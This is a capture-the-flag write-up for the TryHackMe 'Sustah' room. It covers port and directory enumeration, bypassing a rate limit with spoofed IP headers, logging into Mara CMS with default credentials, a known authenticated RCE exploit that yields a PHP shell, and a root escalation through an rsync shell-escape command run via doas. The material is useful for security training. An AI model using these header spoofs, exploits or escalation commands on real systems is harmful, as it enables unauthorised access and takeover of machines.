 # 65 - Sustah (Http Rate Limit Bypass)

Room Link --> [https://tryhackme.com/room/sustah](https://tryhackme.com/room/sustah)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.212.70 -p- -sV -T4 -T5

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
8085/tcp open  http    syn-ack Gunicorn 20.0.4
```
{% endcode %}

#### Gobuster enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.212.70:8085/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error

/home
/ping
```
{% endcode %}

Opening HTTP service running on port 8085 we get a HTTP server that is also running runicorn meaning its a flask web application and it appears to be a gaming site

<figure><img src="https://miro.medium.com/v2/resize:fit:602/1*MfCJRRKRFkQIczS4FLW3Sw.png" alt="" height="378" width="700"><figcaption></figcaption></figure>

I tried to bruteforce the number but there is a rate limiting feature.

The answer headers look like that:

<figure><img src=".gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### HTTP Rate Limit Bypass

Check hacktricks for a bypass method.

```bash
# tried all..
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Host: 127.0.0.1
X-Forwared-Host: 127.0.0.1

#or use double X-Forwared-For header
X-Forwarded-For:
X-Forwarded-For: 127.0.0.1

# but only this worked:
X-Remote-Addr: 127.0.0.1
```

They are gone now..

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So forward the request to intruder to bruteforce the Numbers.

The hint displayed \*\*\*\*\* 5 stars, so the logical move is to start from 10000.

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
/YouGotTh3P@th
```

Navigating to the path:

So this didn't work --> [http://10.10.212.70:8085/YouGotTh3P@th](http://10.10.212.70:8085/YouGotTh3P@th)

But this worked --> [http://10.10.212.70/YouGotTh3P@th/](http://10.10.212.70/YouGotTh3P@th/)

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So Mara CMS. Googling the exploit for this CMS, and found an authenticated RCE exploit.

Enumerating dirs and files for this CMS

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.212.70/YouGotTh3P@th/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error -x txt,html,php,py,ini,db,sql -b 403,500,404

/index.php
/blog
/about.php
/css
/template
/log
/theme
/changes.txt
/plugin
```
{% endcode %}

### Initial Access

We got the version: Mara 7.5

The default credentials worked: `admin : changeme` .

Using this [exploit](https://www.exploit-db.com/exploits/48780)

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Files saved to: /var/www/html/YouGotTh3P@th/img

So i navigated to : [http://10.10.212.70/YouGotTh3P@th/img/shell.php](http://10.10.212.70/YouGotTh3P@th/img/shell.php) and got shell.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The hint says look for backup files, there is a backups dir in /var, we found kiran password in a `.bak.passwd` .

`kiran : trythispasswordforuserkiran` .

And we su into Kiran acct.

### Priv Esc to root

After linpeas had finished running i found out that kiran could run rsync as the root user without providing the root’s password. This was a misconfiguation on it’s own

<figure><img src="https://miro.medium.com/v2/resize:fit:602/1*xobiL0zUULtjH4RsFiKEUw.png" alt="" height="63" width="700"><figcaption></figcaption></figure>

Looking at GTFOBins there is a way we could get a shell using rsync

<figure><img src="https://miro.medium.com/v2/resize:fit:602/1*AwTha1sZZUGB4oMZuBhNIg.png" alt="" height="121" width="700"><figcaption></figcaption></figure>

So i tried executing the command as kiran user

The command was

```
doas -u root rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
```

<figure><img src="https://miro.medium.com/v2/resize:fit:602/1*GstFkXKsXBTC78xRZpZmyw.png" alt="" height="70" width="700"><figcaption></figcaption></figure>

Done!

